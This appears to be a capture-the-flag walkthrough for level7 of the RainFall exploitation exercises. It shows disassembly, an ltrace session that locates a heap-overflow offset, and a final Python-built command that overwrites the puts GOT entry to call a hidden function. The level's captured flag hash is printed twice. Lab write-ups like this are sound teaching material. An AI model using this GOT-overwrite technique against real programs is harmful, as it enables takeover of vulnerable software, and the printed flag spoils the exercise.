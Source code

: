 # Walkthrough

## Solution

```
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1666004181
 ```

## Explanation

### Execution

```
level7@RainFall:~$ ./level7 
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 hello
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 hello hello
~~
```  
-> The program takes 2 arguments and prints "~~"

### Disassembly

```
info var:
0x08049960  c

info function
0x080484f4  m
0x08048521  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  

### Steps

The main stores the .pass file in the c variable, but doesn't print it.  
-> We need to call the m function that is not called, but that prints the c variable.  

Let's try to call the m function instead of the puts function.  

Address of m: 0x080484f4  
Address of puts in the GOT, as the address in the PLT is read-only: 0x08049928  
```
level7@RainFall:~$ objdump -R ./level7
./level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049928 R_386_JUMP_SLOT   puts
```

-> we need to replace the address of puts by the address of m.
`
man strcy:
 If the destination string of a strcpy() is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.
`

-> We can overflow with strcpy.

- Find the overflow offset:
```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
__libc_start_main(0x8048521, 2, 0xbffff794, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                = 0x0804a008
malloc(8)                                                = 0x0804a018
malloc(8)                                                = 0x0804a028
malloc(8)                                                = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...> --> 20 in the Buffer Overflow pattern generator
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```  
--> offset is at 20  

- Build the command  

`
./level7 arg1 arg2
arg1 = x padding to overflow into 3rd malloc, and replace ptr2[1] with address of puts
arg2 = address of m
`
-> so that we have strcpy(dest: &puts, src: &m), so when we call puts("~~"), we will call m in reality.

- Final Command  

```
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1666004181
```